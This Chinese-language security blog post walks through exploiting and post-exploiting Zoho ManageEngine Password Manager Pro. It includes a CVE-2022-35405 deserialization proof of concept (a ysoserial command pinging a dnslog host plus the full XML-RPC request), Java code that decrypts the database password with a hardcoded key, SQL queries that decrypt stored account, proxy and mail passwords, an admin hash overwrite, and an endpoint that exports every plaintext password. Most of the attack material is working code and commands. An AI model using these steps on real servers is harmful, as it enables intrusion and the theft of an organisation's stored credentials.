


# Zoho Password Manager Pro 后利用技巧

学习 pmp 这块相关知识点，做个简单的总结

info

本文首发 跳跳糖社区 [https://tttang.com/archive/1791/](https://tttang.com/archive/1791/)

- - -

## [](#%E6%8C%87%E7%BA%B9)指纹

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>server=="PMP"<br><br>默认开启在7272端口<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled.png)

- - -

## [](#%E5%AE%89%E8%A3%85)安装

-   [https://www.manageengine.com/products/passwordmanagerpro/help/installation.html](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html)

### [](#windows)windows

下载安装包，双击一路下一步即可

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>https://archives2.manageengine.com/passwordmanagerpro/12100/ManageEngine_PMP_64bit.exe<br>``` |

访问 127.0.0.1:7272

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%201.png)

### [](#linux)linux

下载安装包

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```bash<br>https://archives2.manageengine.com/passwordmanagerpro/10501/ManageEngine_PMP_64bit.bin<br><br>chmod a+x ManageEngine_PMP_64bit.bin<br>./ManageEngine_PMP_64bit.bin -i console<br>cd /root/ManageEngine/PMP/bin<br>bash pmp.sh install<br>``` |

等待安装完毕，访问 127.0.0.1:7272 即可

- - -

## [](#%E8%BF%9C%E7%A8%8B%E8%B0%83%E8%AF%95)远程调试

这里以 windows 为例

用 process hacker 查看服务启动后相关的进程和运行参数

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%202.png)

java 进程的启动参数：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>"..\jre\bin\java" -Dcatalina.home=.. -Dserver.home=.. -Dserver.stats=1000 -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djava.util.logging.config.file=../conf/logging.properties -Djava.util.logging.config.class=com.adventnet.logging.LoggingScanner -Dlog.dir=.. -Ddb.home=../pgsql -Ddatabaseparams.file=./../conf/database_params.conf -Dstart.webclient=false -Dgen.db.password=true -Dsplashscreen.progress.color=7515939 -Dsplashscreen.fontforeground.color=7515939 -Dsplashscreen.fontbackground.color=-1 -Dsplash.filename=../images/passtrix_splash.png -Dsplashscreen.font.color=black -Djava.io.tmpdir=../logs -DcontextDIR=PassTrix -Dcli.debug=false -DADUserNameSyntax=domain.backslash.username -Duser.home=../logs/ -Dnet.phonefactor.pfsdk.debug=false -server -Dfile.encoding=UTF8 -Xms50m -Xmx512m -Djava.library.path="../lib/native" -classpath "../lib/wrapper.jar;../lib/tomcat/tomcat-juli.jar;run.jar;../tools.jar;../lib/AdventNetNPrevalent.jar;../lib/;../lib/AdventNetUpdateManagerInstaller.jar;../lib/conf.jar" -Dwrapper.key="n37Dhzdw8A8BWgGmjTi3w37jMJIKvUuZ" -Dwrapper.port=32000 -Dwrapper.jvm.port.min=31000 -Dwrapper.jvm.port.max=31999 -Dwrapper.pid=1000 -Dwrapper.version="3.5.25-pro" -Dwrapper.native_library="wrapper" -Dwrapper.arch="x86" -Dwrapper.service="TRUE" -Dwrapper.cpu.timeout="10" -Dwrapper.jvmid=1 -Dwrapper.lang.domain=wrapper -Dwrapper.lang.folder=../lang org.tanukisoftware.wrapper.WrapperSimpleApp com.adventnet.mfw.Starter<br>``` |

java 进程的父进程为 wrapper.exe，启动参数：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>"C:\Program Files\ManageEngine\PMP\bin\wrapper.exe" -s "C:\Program Files\ManageEngine\PMP\conf\wrapper.conf"<br>``` |

查看文件 `C:\Program Files\ManageEngine\PAM\conf\wrapper.conf`

其中存在几行被注释的调试选项

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>#uncomment the following to enable JPDA debugging<br>#wrapper.java.additional.27=-Xdebug<br>#wrapper.java.additional.28=-Xnoagent<br>#wrapper.java.additional.29=-Xrunjdwp:transport=dt_socket,address=8787,server=y,suspend=n<br>``` |

取消注释

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```fallback<br>wrapper.java.additional.27=-Xdebug<br>wrapper.java.additional.28=-Xnoagent<br>wrapper.java.additional.29=-Xrunjdwp:transport=dt_socket,address=8787,server=y,suspend=n<br>``` |

重启服务，再次查看 java 进程的参数：

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%203.png)

IDEA 设置如下

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%204.png)

- - -

## [](#%E5%88%A4%E6%96%AD%E7%89%88%E6%9C%AC)判断版本

在访问站点时，其默认加载的 js、css 路径中就包含了版本信息，如下图，`12121` 代表其版本号

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%205.png)

在官方站点可以下载相应版本号的安装包

-   [https://archives2.manageengine.com/passwordmanagerpro/](https://archives2.manageengine.com/passwordmanagerpro/)

- - -

## [](#cve-2022-35405)CVE-2022-35405

这个洞影响范围 12100 及以下版本，在 12101 被修复

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%206.png)

poc

使用 `ysoserial` 的 `CommonsBeanutils1` 来生成 Payload：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>java -jar ysoserial.jar CommonsBeanutils1 "ping uqgr9k.dnslog.cn" \| base64 \| tr -d "\n"<br>``` |

替换到下面的 `[base64-payload]` 部分

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br>POST /xmlrpc HTTP/1.1<br>Host: your-ip<br>Content-Type: application/xml<br><br><?xml version="1.0"?><br><methodCall><br>  <methodName>ProjectDiscovery</methodName><br>  <params><br>    <param><br>      <value><br>        <struct><br>          <member><br>            <name>test</name><br>            <value><br>              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable><br>            </value><br>          </member><br>        </struct><br>      </value><br>    </param><br>  </params><br></methodCall><br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%207.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%208.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled.webp)

- - -

## [](#%E5%AF%86%E9%92%A5%E6%96%87%E4%BB%B6)密钥文件

### [](#windows-1)windows

以 windows 平台的 pmp 为例

`database_params.conf` 文件中存储了数据库的用户名和加密数据库密码。

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%209.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>``` | ```bash<br># $Id$<br># driver name<br>drivername=org.postgresql.Driver<br><br># login username for database if any<br>username=pmpuser<br><br># password for the db can be specified here<br>password=NYubvnnJJ6ii871X/dYr5xwkr1P6yGCEeoA=<br># url is of the form jdbc:subprotocol:DataSourceName for eg.jdbc:odbc:WebNmsDB<br>url=jdbc:postgresql://localhost:2345/PassTrix?ssl=require<br><br># Minumum Connection pool size<br>minsize=1<br><br># Maximum Connection pool size<br>maxsize=20<br><br># transaction Isolation level<br>#values are Constanst defined in java.sql.connection type supported TRANSACTION_NONE 	0<br>#Allowed values are TRANSACTION_READ_COMMITTED , TRANSACTION_READ_UNCOMMITTED ,TRANSACTION_REPEATABLE_READ , TRANSACTION_SERIALIZABLE<br>transaction_isolation=TRANSACTION_READ_COMMITTED<br>exceptionsorterclassname=com.adventnet.db.adapter.postgres.PostgresExceptionSorter<br><br># check is the database password encrypted or not<br>db.password.encrypted=true<br>``` |

可以看到默认 pgsql 用户为 `pmpuser`, 而加密的数据库密码为 `NYubvnnJJ6ii871X/dYr5xwkr1P6yGCEeoA=`

`pmp_key.key` 文件显示 PMP 密钥，这个用于加密数据库中的密码

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2010.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```bash<br>#本文件是由PMP自动生成的，它包含了本次安装所使用的AES加密主密钥。<br>#该文件默认存储在<PMP_HOME>/conf目录中。除非您的服务器足够安全，不允许其他任何非法访问，<br>#否则，该文件就有可能泄密，属于安全隐患。因此，强烈建议您将该文件从默认位置移动到<br>#PMP安装服务器以外的其它位置（如：文件服务器、U盘等），并按照安全存储要求保存该文件。<br>#Fri Oct 21 16:08:30 CST 2022<br>ENCRYPTIONKEY=G8N1EX+nkQlPVpd29eenVOYWCCS0oF/EPZdswlorot8\=<br>``` |

### [](#linux-1)Linux

`database_params.conf` 文件存放在 `/root/ManageEngine/PMP/conf/database_params.conf`

`pmp_key.key` 文件存放在 `/root/ManageEngine/PMP/conf/pmp_key.key`

- - -

## [](#%E6%81%A2%E5%A4%8Dpgsql%E7%9A%84%E5%AF%86%E7%A0%81)恢复 pgsql 的密码

要连接 pgsql，首先需要解密 pmp 加密的 pgsql 数据库密码

找下 pmp 对数据库密码的加密逻辑，在 shielder 的文章 [https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/](https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/) 给出了加密类

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2011.png)

找到对应 jar 文件

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2012.png)

反编译查看解密的逻辑

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2013.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2014.png)

可以发现 encodedKey 是取 `@dv3n7n3tP@55Tri*` 的 5 到 10 位

通过使用其 DecryptDBPassword 函数可以解密数据库密码，不过在 shielder 的文章中给出了解密的代码，直接解密

|     |     |     |
| --- | --- | --- |
| ```bash<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>``` | ```java<br>import java.security.InvalidAlgorithmParameterException;<br>import java.security.InvalidKeyException;<br>import java.security.Key;<br>import java.security.MessageDigest;<br>import java.security.NoSuchAlgorithmException;<br>import java.security.spec.InvalidKeySpecException;<br>import java.util.Base64;<br>import java.lang.StringBuilder;<br><br>import javax.crypto.BadPaddingException;<br>import javax.crypto.Cipher;<br>import javax.crypto.IllegalBlockSizeException;<br>import javax.crypto.NoSuchPaddingException;<br>import javax.crypto.SecretKey;<br>import javax.crypto.SecretKeyFactory;<br>import javax.crypto.spec.IvParameterSpec;<br>import javax.crypto.spec.PBEKeySpec;<br>import javax.crypto.spec.SecretKeySpec;<br><br>class PimpMyPMP {<br>    public synchronized String decrypt(byte[] cipherText, String password) throws Exception {<br>        Cipher cipher;<br>        byte[] aeskey;<br><br>        for (int i = password.length(); i < 32; ++i) {<br>            password = password + " ";<br>        }<br>        if (password.length() > 32) {<br>            try {<br>                aeskey = Base64.getDecoder().decode(password);<br>            } catch (IllegalArgumentException e) {<br>                aeskey = password.getBytes();<br>            }<br>        }<br>        aeskey = password.getBytes();<br>        try {<br>            byte[] ivArr = new byte[16];<br>            for (int i = 0; i < 16; ++i) {<br>                ivArr[i] = cipherText[i];<br>            }<br>            cipher = Cipher.getInstance("AES/CTR/NoPadding");<br>            SecretKeyFactory factory = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA1");<br>            PBEKeySpec spec = new PBEKeySpec(new String(aeskey, "UTF-8").toCharArray(), new byte[]{1, 2, 3, 4, 5, 6, 7, 8}, 1024, 256);<br>            SecretKey temp = factory.generateSecret(spec);<br>            SecretKeySpec secret = new SecretKeySpec(temp.getEncoded(), "AES");<br>            cipher.init(2, (Key) secret, new IvParameterSpec(ivArr));<br><br>            byte[] cipherTextFinal = new byte[cipherText.length - 16];<br>            int j = 0;<br>            for (int i = 16; i < cipherText.length; ++i) {<br>                cipherTextFinal[j] = cipherText[i];<br>                ++j;<br>            }<br><br>            return new String(cipher.doFinal(cipherTextFinal), "UTF-8");<br>        } catch (IllegalBlockSizeException \| BadPaddingException \| NoSuchAlgorithmException \| NoSuchPaddingException \|<br>                 InvalidKeyException \| InvalidAlgorithmParameterException \| InvalidKeySpecException ex) {<br>            ex.printStackTrace();<br>            throw new Exception("Exception occurred while encrypting", ex);<br>        }<br>    }<br><br>    private static String hardcodedDBKey() throws NoSuchAlgorithmException {<br>        String key = "@dv3n7n3tP@55Tri*".substring(5, 10);<br>        MessageDigest md = MessageDigest.getInstance("MD5");<br>        md.update(key.getBytes());<br>        byte[] bkey = md.digest();<br>        StringBuilder sb = new StringBuilder(bkey.length * 2);<br>        for (byte b : bkey) {<br>            sb.append(String.format("%02x", b));<br>        }<br>        return sb.toString();<br>    }<br><br>    public String decryptDBPassword(String encPassword) throws Exception {<br>        String decryptedPassword = null;<br>        if (encPassword != null) {<br>            try {<br>                decryptedPassword = this.decryptPassword(encPassword, PimpMyPMP.hardcodedDBKey());<br>            } catch (Exception e) {<br>                throw new Exception("Exception ocuured while decrypt the password");<br>            }<br>            return decryptedPassword;<br>        }<br>        throw new Exception("Password should not be Null");<br>    }<br><br>    public String decryptPassword(String encryptedPassword, String key) throws Exception {<br>        String decryptedPassword = null;<br>        if (encryptedPassword == null \| "".equals(encryptedPassword)) {<br>            return encryptedPassword;<br>        }<br>        try {<br>            byte[] encPwdArr = Base64.getDecoder().decode(encryptedPassword);<br>            decryptedPassword = this.decrypt(encPwdArr, key);<br>        } catch (Exception ex) {<br>            ex.printStackTrace();<br>        }<br>        return decryptedPassword;<br>    }<br><br>    public static void main(String[] args) {<br>        PimpMyPMP klass = new PimpMyPMP();<br>        try {<br>            // database_params.conf<br>            String database_password = "";<br>            System.out.print("Database Key: ");<br>            System.out.println(klass.decryptDBPassword(database_password));<br><br>            // pmp_key.key<br>            String pmp_password = "";<br><br>            // select notesdescription from Ptrx_NotesInfo<br>            String notesdescription = "";<br>            System.out.print("MASTER Key: ");<br>            System.out.println(klass.decryptPassword(notesdescription, pmp_password));<br><br>            // decryptschar(column, master_key)<br>            String passwd = "";<br>            System.out.print("Passwd: ");<br>            System.out.println(klass.decryptPassword(passwd, pmp_password));<br><br>        } catch (Exception e) {<br>            System.out.println("Fail!");<br>        }<br>    }<br>}<br>``` |

填入加密的数据库密码，查看结果

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2015.png)

可以看到密码为:sC1ekMrant

连接 pgsql 测试

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2016.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2017.png)

这里注意，pmp 默认的 pgsql 是只监听 127 的 2345，无法外部连接，如果是 rce 打的，可以自行进行端口转发

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2018.png)

- - -

## [](#%E8%8E%B7%E5%8F%96master-key)获取 `master key`

在连接数据库后，查询加密的 `master key`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>select<br>notesdescription<br>from<br>Ptrx_NotesInfo<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2019.png)

这里通过 `pmp_key.key` 文件中的 PMP 密钥来解密 `master key`

shielder 的代码在解的时候有些问题，这里使用 [https://github.com/trustedsec/Zoinks](https://github.com/trustedsec/Zoinks) 项目来进行解密

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2020.png)

得到 `master key`

- - -

## [](#%E8%A7%A3%E5%AF%86%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81)解密数据库中的密码

首先先查询数据库中的存储的密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select ptrx_account.RESOURCEID, ptrx_resource.RESOURCENAME, ptrx_resource.RESOURCEURL, ptrx_password.DESCRIPTION, ptrx_account.LOGINNAME, decryptschar(ptrx_passbasedauthen.PASSWORD,'***master_key***') from ptrx_passbasedauthen LEFT JOIN ptrx_password ON ptrx_passbasedauthen.PASSWDID = ptrx_password.PASSWDID LEFT JOIN ptrx_account ON ptrx_passbasedauthen.PASSWDID = ptrx_account.PASSWDID LEFT JOIN ptrx_resource ON ptrx_account.RESOURCEID = ptrx_resource.RESOURCEID<br>``` |

用 `master key` 替换语句里的 `***master_key***` 部分

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2021.png)

继续使用 Zoinks 进行解密

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2022.png)

这里解密出 test 资源，root 用户的明文口令 123456

- - -

## [](#%E8%A7%A3%E5%AF%86%E4%BB%A3%E7%90%86%E9%85%8D%E7%BD%AE)解密代理配置

当配置了代理服务器时，同样用类似的方法进行查询和解密

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2023.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select proxy_id,direct_connection,proxy_server,proxy_port,username,decryptschar(ptrx_proxysettings.PASSWORD,'***master_key***') from ptrx_proxysettings<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2024.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2025.png)

- - -

## [](#%E8%A7%A3%E5%AF%86%E9%82%AE%E4%BB%B6%E6%9C%8D%E5%8A%A1%E5%99%A8%E9%85%8D%E7%BD%AE)解密邮件服务器配置

pmp 这个默认都是配置了邮件服务器的

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select mailid,mailserver,mailport,sendermail,username,decryptschar(ptrx_mailsettings.PASSWORD,'***master_key***'),tls,ssl,tlsifavail,never from ptrx_mailsettings<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2026.png)

- - -

## [](#pg%E6%95%B0%E6%8D%AE%E5%BA%93postgres%E7%94%A8%E6%88%B7%E5%AF%86%E7%A0%81)pg 数据库 postgres 用户密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select username,decryptschar(dbcredentialsaudit.PASSWORD,'***master_key***'),last_modified_time from dbcredentialsaudit<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2027.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2028.png)

- - -

## [](#%E8%BF%9B%E5%85%A5-pmp-web%E5%90%8E%E5%8F%B0)进入 pmp web 后台

在数据库中查询 web 后台的账号密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from aaauser;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2029.png)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select * from aaapassword;<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2030.png)

这里密码是进行 bcryptsha512 加密的，可以用 hashcat 进行爆破

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2031.png)

也可通过覆盖 hash 的方式修改 admin 账号的密码，例如修改为下列数据，即可将 admin 密码改为 test2

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>"password_id"	"password"	"algorithm"	"salt"	"passwdprofile_id"	"passwdrule_id"	"createdtime"	"factor"<br>"1"	"$2a$12$bOUtxZzgrAu.3ApJM7fUYu7xBfxhJ4k2gx5CQE5BzMcN.cr/6cbhy"	"bcrypt"	"wwwECQECvU8zqfmCnXfSTgFnfz9CDl/cX+yDwJEhJ+91ADnOHbR0q7rOASpBqm2mQgYLHtlUJSX5u4ad7yOJpVNkoPJoI6gev75VAwAf/BTM4rpHTLT+cCdWMwnHmg=="	"1"	"3"	"1666345834309"	"12"<br>``` |

注意⚠️：覆盖前务必备份源 hash 数据

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2032.png)

进入后台后可直接导出所有明文密码

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>/jsp/xmlhttp/AjaxResponse.jsp?RequestType=ExportPasswords<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2033.png)

- - -

## [](#%E6%9C%AC%E5%9C%B0-web-accounts-reports-%E6%96%87%E4%BB%B6)本地 Web-Accounts reports 文件

在后台 personal 页面导出个人报告时可以选择 pdf 或 xls 格式，该文件在导出后会一直存在在服务器上

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2034.png)

这个问题在 12122 被修复

[](https://r0fus0d.blog.ffffffff0x.com/img/zoho-case/Untitled%2035.png)

- - -

## [](#ppm-%E6%96%87%E4%BB%B6%E7%9A%84%E5%AE%89%E8%A3%85%E6%96%B9%E6%B3%95)ppm 文件的安装方法

ppm 是 pmp 的更新包，在 windows 上通过 UpdateManager.bat 进行安装，在 linux 上通过 UpdateManager.sh 进行安装

-   [https://www.manageengine.com/products/passwordmanagerpro/help/faq.html](https://www.manageengine.com/products/passwordmanagerpro/help/faq.html)

- - -

## [](#source--reference)Source & Reference

-   [https://www.trustedsec.com/blog/the-curious-case-of-the-password-database/](https://www.trustedsec.com/blog/the-curious-case-of-the-password-database/)
-   [https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/](https://www.shielder.com/blog/2022/09/how-to-decrypt-manage-engine-pmp-passwords-for-fun-and-domain-admin-a-red-teaming-tale/)
-   [https://y4er.com/posts/cve-2022-35405-zoho-password-manager-pro-xml-rpc-rce](https://y4er.com/posts/cve-2022-35405-zoho-password-manager-pro-xml-rpc-rce)
-   [https://github.com/trustedsec/Zoinks](https://github.com/trustedsec/Zoinks)
-   [https://www.manageengine.com/products/passwordmanagerpro/help/installation.html#inst-lin](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html#inst-lin)
-   [https://github.com/3gstudent/3gstudent.github.io/blob/main/\_posts/—2022-8-12-Password Manager Pro 漏洞调试环境搭建.md](https://github.com/3gstudent/3gstudent.github.io/blob/main/_posts/---2022-8-12-Password%20Manager%20Pro%E6%BC%8F%E6%B4%9E%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md)
-   [https://github.com/3gstudent/3gstudent.github.io/blob/main/\_posts/—2022-8-17-Password Manager Pro 利用分析 —— 数据解密.md](https://github.com/3gstudent/3gstudent.github.io/blob/main/_posts/---2022-8-17-Password%20Manager%20Pro%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90%E2%80%94%E2%80%94%E6%95%B0%E6%8D%AE%E8%A7%A3%E5%AF%86.md)
